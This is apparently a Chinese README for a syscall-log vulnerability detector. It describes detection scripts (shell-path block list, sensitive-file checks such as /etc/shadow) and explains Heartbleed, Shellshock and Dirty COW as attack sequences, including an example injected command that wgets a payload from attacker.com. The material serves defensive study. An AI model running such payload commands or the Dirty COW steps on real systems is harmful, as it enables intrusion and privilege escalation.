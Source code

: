 # 分析脚本 ( ***To Be Expanded*** )
Scripts 下是六个 python 脚本以及对应的示例日志文件 , 分别用于检测不同的漏洞

### 0.1 HOW TO RUN
只需在 Analyzer/Scripts/XXXX 目录下用 python3 执行对应 python 脚本即可

### 0.2 OUTPUT FORMAT
```
============================================================
[!!!] 高危警报：检测到潜在的【敏感文件访问】漏洞！
      - 行号: 2
      - 证据: 尝试访问敏感文件: /etc/shadow
      - 完整日志: {'ts': 201, 'event': 'TRACK_OPENAT', 'pid': 13608, 'bin': 'qemu-x86_64', 'file': '/etc/shadow'}
============================================================
```
```
============================================================
[!!!] 高危警报：检测到潜在的【权限提升】漏洞！
      - 行号: 3
      - 证据: 'SETUID' 尝试设置uid为0 (root)
      - 完整日志: {'ts': 202, 'event': 'SETUID', 'pid': 13608, 'uid': 0}
============================================================
```

### 1. AccessControl
- 检测是否有提权操作 ( PRIVILEGE_ESCALATION_EVENTS = {"SETUID", "SETGID", "SETREUID", "SETRESUID"} ) 且尝试设置uid为0 (root)
- 检测是否可能访问无权访问的文件 ( 包含 ../ 路径 , 或是在黑名单中的敏感文件 )

- ***Note : 文档中系统调用没有提及 SETUID 等可能的提权操作 , 这里只是假设存在格式形如 {"event":"SETUID", "uid":0} 的事件***

### 2. CodeInjection
- 检测是否使用 EXEC syscall 执行了可疑的 shell ( SUSPICIOUS_COMMANDS = { "/bin/sh", "/bin/bash", "/bin/csh", "/usr/bin/sh", "/usr/bin/bash", "sh", "bash"} )

### 3. ForkBomb
- 检测在一个时间窗口中是否出现了大量 fork 系统调用

### 4. InformationLeakage
- 检测是否在一个时间窗口中先出现了接收/读取 size 很小的数据 , 然后发送/写入 size 很大的数据

### 5. MemoryCorruption
- 强特征检测: 检测是否有 mprotect 调用 , 并将一块内存区域的权限标记为可执行 
- 弱特征检测: 检测是否有异常大的内存映射 , 但这只是一个弱特征 , 表示可能存在大的内存分配 , 而非确切的攻击行为

- ***Note : 文档中系统调用没有提及 MPROTECT 系统调用 , 这里假设存在格式形如 {"ts": <timestamp>, "event": "MPROTECT", "pid": <pid>, "perms": "PROT_READ|PROT_WRITE|PROT_EXEC"} 的事件***

### 6. RaceCondition
- 检测是否有高频、并发地调用 mmap , madvise , 和 write ( 针对 /proc/self/mem ) , 具体原理见下文

- ***Note : 文档中系统调用没有提及 MADVICE 系统调用 , 这里假设存在格式形如 {"ts": <timestamp>, "event": "MADVICE", "pid": <pid>, "advice": "MADV_DONTNEED"} 的事件***


---

# 恶意代码示例
MaliciousCode 下是三个典型的高危漏洞 
### Heartbleed
- 这是一个边界检查缺失导致的信息泄露漏洞。攻击者可以向服务器发送一个特制的心跳请求，请求一块很大的内存（比如64KB），但实际只发送了很小的数据。有漏洞的服务器不会检查请求长度和实际数据长度是否匹配，直接从内存中复制并返回64KB数据，这其中就可能包含服务器的私钥、用户会话、密码等敏感信息。
- Heartbleed触发时的序列:

  1. 服务器进程通过 read()/recvfrom() 接收到攻击者发来的恶意心跳包。

  2. OpenSSL库在内存中处理这个包时，由于逻辑缺陷，会读取到不该读取的内存区域。

  3. 服务器最终通过 write()/sendto() 将这块包含敏感信息的内存区域发送回攻击者。

### Shellshock
- 这是一个命令注入漏洞。Bash在处理某些特殊构造的环境变量时，会错误地将环境变量值中的字符串作为命令来执行。当一个程序（如网页服务器的CGI脚本）接收用户输入并将其设置为环境变量，然后调用Bash时，攻击者就可以远程执行任意命令。<br><br>由于 bash 问题已被修复 ，可能需要旧版本的 docker 才能正确演示

- Shellshock触发时的序列:

    1. Apache进程通过 read() 接收到一个包含恶意HTTP头的请求。

    2. Apache fork() 并准备通过 execve() 运行CGI脚本。在调用 execve() 之前，它会将HTTP头（如User-Agent）设置为环境变量。

    3. execve() 成功执行，Bash进程启动。

    4. Bash在初始化、解析环境变量时，触发了漏洞。

    5. 关键点: Bash进程内部会再次调用 fork() 和 execve() 来执行攻击者注入的命令（例如 /bin/sh -c 'wget http://attacker.com/payload'）。

### Dirty COW
- 这是一个Linux内核的竞争条件漏洞，允许本地低权限用户提权至root。漏洞在于内核内存子系统处理写时复制（Copy-on-Write, COW）机制时存在缺陷。攻击者可以利用这个缺陷，向一个只读的内存映射（例如一个由root拥有的文件 /etc/passwd）写入数据。 <br><br> ***警告***：请务必在专门的、可丢弃的虚拟机或Docker容器中运行此代码。虽然此PoC是本地的，但它利用的是内核级漏洞，在不安全的系统上运行可能导致系统不稳定。
- Dirty COW触发时的序列:

    1. 攻击者进程使用 mmap() 将一个只读文件（如 /etc/passwd）映射到内存中。

    2. 进程创建两个线程。

    3. 线程A: 在一个循环中，反复调用 madvise(addr, len, MADV_DONTNEED)。这个调用告诉内核“我不再需要这块内存了”，内核会丢弃它，但保留映射关系。下次访问时会重新从文件加载（触发COW）。

    4. 线程B: 同时，在另一个循环中，通过 open("/proc/self/mem", O_RDWR) 并 lseek() 到目标内存地址，然后 write() 尝试向这块只读映射写入数据。